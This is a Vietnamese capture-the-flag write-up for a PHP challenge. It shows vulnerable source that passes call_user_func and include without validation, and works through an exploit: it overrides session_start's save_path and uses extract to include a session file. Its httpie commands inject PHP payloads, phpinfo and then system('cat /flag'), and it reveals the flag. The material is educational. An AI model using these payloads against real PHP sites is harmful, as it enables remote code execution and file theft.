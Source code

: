 # PHP Izar Best

Level: Medium

```php
<?php
    highlight_file(__FILE__);
    error_reporting(0);
    ini_set('open_basedir', '/var/www/html:/tmp');
    $file = 'function.php';
    $func = isset($_GET['function'])?$_GET['function']:'filters'; 
    call_user_func($func,$_GET);
    include($file);
    session_start();
    $_SESSION['name'] = $_POST['name'];
    if($_SESSION['name']=='admin'){
        header('location:admin.php');
    }
?>
```

chall này cung cấp cho chúng ta source code của file index.php. ta có thể thấy rằng hàm call_user_func($func,$_GET); không được xác thực trước bởi một bộ lọc an toàn sau đó: include($file); . Điều này cho thấy ta có thể sử dụng extract để che các biến và tấn công File Inclusion.

đối với kỹ thuật này, hàm session_start() ta thấy giá trị phiên có thể được kiểm soát và phiên được lưu ở những vị trí sau theo mặc định:
``` php
/var/lib/php/sess_PHPSESSID
/var/lib/php/sessions/sess_PHPSESSID

/var/lib/php5/sess_PHPSESSID
/var/lib/php5/sessions/sess_PHPSESSID

/tmp/sess_PHPSESSID
/tmp/sessions/sess_PHPSESSID
```

hàm session_start() có một tham số mảng options, nếu được cung cấp nó sẽ ghi đè lên mục cấu hình phiên và nó chứa save_path , điều này có thể được sử dụng để đổi vị trí lưu phiên.

Vì vậy, ý tưởng là chuyển vào một hàm session_start để sửa đổi vị trí lưu trữ.

```shell
http --form post "http://127.0.0.1:8003/?function=session_start&save_path=."  name='<?php phpinfo(); ?>' Cookie:PHPSESSID=ivs6beep0k40niqru85ia36bb3
```

sau đó chúng ta truy cập: http://127.0.0.1:8003/?function=extract&file=ivs6beep0k40niqru85ia36bb3

sẽ nhận được trang phpinfo()

Từ đây, bạn có thể chèn shell để khai thác.
```shell
http --form post "http://127.0.0.1:8003/?function=session_start&save_path=."  name='<?php system("cat /flag"); ?>' Cookie:PHPSESSID=ivs6beep0k40niqru85ia36bb3
```

>> flag: flag{sens1t1ve_sess10n}